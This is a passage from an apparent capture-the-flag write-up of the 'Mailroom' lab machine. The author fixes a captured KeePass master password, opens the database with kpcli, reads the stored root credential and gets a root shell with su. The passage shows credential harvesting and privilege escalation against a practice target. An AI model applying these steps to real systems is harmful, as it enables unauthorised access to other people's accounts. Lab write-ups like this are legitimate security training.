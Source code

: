 This means that after removing the `1`, the password `!sEcUr3p4$$w01\10rd9` becomes `!sEcUr3p4$$w0rd9`. By using the master password, it was possible to decrypt the database and uncover the root's password within one of those entries.

```bash
(remote) matthew@mailroom:/home/matthew$ kpcli --kdb personal.kdbx
Please provide the master password: *************************

KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls Root/
=== Entries ===
0. food account                                            door.dash.local
1. GItea Admin account                                    git.mailroom.htb
2. gitea database password
3. My Gitea Account                                       git.mailroom.htb
4. root acc

kpcli:/> show -f 4

Title: root acc
Uname: root
 Pass: a$gBa3!GA8
  URL:
Notes: root account for sysadmin jobs
```

Pwned!!

```bash
matthew@mailroom:~$ su root
Password:
root@mailroom:/home/matthew# id
uid=0(root) gid=0(root) groups=0(root)
root@mailroom:/home/matthew# ls -la /root/root.txt
-rw-r----- 1 root root 33 Jul 19 12:29 /root/root.txt
root@mailroom:/home/matthew#
```


